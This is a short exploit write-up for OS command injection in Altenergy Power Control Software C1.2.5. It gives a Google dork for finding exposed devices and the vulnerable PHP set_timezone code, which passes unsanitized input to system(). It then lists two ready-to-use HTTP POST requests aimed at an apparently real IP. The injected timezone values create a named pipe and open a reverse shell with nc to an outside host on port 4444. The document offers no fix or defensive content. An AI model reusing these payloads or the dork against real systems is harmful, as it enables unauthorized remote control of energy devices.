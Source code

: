 ## title : OS command injection affects "Altenergy Power Control Software"
### SW ver : C1.2.5
### Vendor :  https://apsystems.com/
### Google Dork : intitle:"Altenergy Power Control Software"

## vulnerable code :

"/home/local_web/pagesapplication/models/management_model.php"

```php
   public function set_timezone()
    {
        $results = array();

        //ΦÄ╖σÅûΘí╡Θ¥óΘÇëµï⌐τÜäµù╢σî║
        $timezone = $this->input->post('timezone');
        if(strlen($timezone) == 0)
                $timezone = "Asia/Taipei";

        //Φ«╛τ╜«linuxτ│╗τ╗ƒµù╢σî║
        $cmd = "cp /usr/share/zoneinfo/$timezone /etc/localtime";
        system($cmd);

        //σ░åµù╢σî║Σ┐¥σ¡ÿσê░Θàìτ╜«µûçΣ╗╢
        $fp = @fopen("/etc/yuneng/timezone.conf",'w');
        if($fp){
            fwrite($fp, $timezone);
            fclose($fp);
        }

```

## Exploit : 


HTTP request : 
```
POST /index.php/management/set_timezone HTTP/1.1
Host: 78.218.230.32:8081
Content-Length: 33
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://78.218.230.32:8081
Referer: http://78.218.230.32:8081/index.php/management/datetime
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

timezone=`mknod /tmp/backpipe p `
```
HTTP request : 

```
POST /index.php/management/set_timezone HTTP/1.1
Host: 78.218.230.32:8081
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://78.218.230.32:8081
Referer: http://78.218.230.32:8081/index.php/management/datetime
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

timezone=`/bin/sh 0</tmp/backpipe | nc 156.197.154.12 4444 1>/tmp/backpipe`

```
POC : 
![Alt Text](POC.png)
